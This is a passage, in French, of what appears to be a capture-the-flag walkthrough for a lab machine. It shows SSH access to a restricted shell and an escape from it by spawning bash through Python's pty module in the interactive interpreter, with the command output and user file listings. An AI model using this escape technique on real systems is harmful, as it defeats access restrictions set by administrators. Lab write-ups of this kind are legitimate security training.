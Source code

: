 Escape Game
-----------

Avant d'aller plus loin j'ai fouillé du côté du serveur web mais les entrées du fichier *robots.txt* étaient toutes invalides et une énumération via *feroxbuster* n'a rien remonté non plus.  

Une fois connecté via SSH on est averti que l'on est dans un bash restreint :  

```plain
*You are in a limited shell.
Type '?' or 'help' to get the list of allowed commands
squiddie:~$ ?
cd  clear  exit  help  history  lpath  ls  lsudo  pwd  python  whoami
```

Le comportement est similaire à sudo dans le sens où la whitelist semble attendre des commandes exactes :  

```plain
squiddie:~$ python -c 'import pty; pty.spawn("bash")'
*** forbidden syntax -> "python -c 'import pty; pty.spawn("bash")'"
*** You have 1 warning(s) left, before getting kicked out.
This incident has been reported.
```

On va donc utiliser l'interpréteur Python de façon interactive pour s'échapper du rbash :  

```plain
squiddie:~$ python
Python 2.7.15rc1 (default, Apr 15 2018, 21:51:34) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import pty; pty.spawn("bash")
squiddie@jetty:~$ id
uid=1001(squiddie) gid=1001(squiddie) groups=1001(squiddie)
```

Je relève les fichiers suivants dans le dossier de l'utilisateur :  

```plain
./Desktop:
total 16
drwxr-xr-x  2 squiddie squiddie 4096 Nov 11  2018 .
drwxr-xr-x 14 squiddie squiddie 4096 Oct 27 03:32 ..
-rw-rw-r--  1 squiddie squiddie  112 Oct 22  2018 To_Michael.txt
-rw-r--r--  1 squiddie squiddie   33 Nov 11  2018 user.txt

./Documents:
total 900
drwxr-xr-x  3 squiddie squiddie   4096 Oct 22  2018 .
drwxr-xr-x 14 squiddie squiddie   4096 Oct 27 03:32 ..
-rw-r--r--  1 squiddie squiddie  28307 Oct  9  2018 laboral_calendar_2018.pdf
-rw-r--r--  1 squiddie squiddie 880236 Oct 22  2018 ticket_prices.PNG
drwxr-xr-x  2 squiddie squiddie   4096 Oct 22  2018 Tickets

./Documents/Tickets:
total 196
drwxr-xr-x 2 squiddie squiddie  4096 Oct 22  2018 .
drwxr-xr-x 3 squiddie squiddie  4096 Oct 22  2018 ..
-rw-r--r-- 1 squiddie squiddie 45676 Oct  7  2018 adult_ticket_f.PDF
-rw-r--r-- 1 squiddie squiddie 45745 Oct  7  2018 adult_ticket.PDF
-rw-r--r-- 1 squiddie squiddie 45888 Oct  7  2018 child_ticket_f.PDF
-rw-r--r-- 1 squiddie squiddie 44354 Oct  7  2018 child_ticket.PDF
```
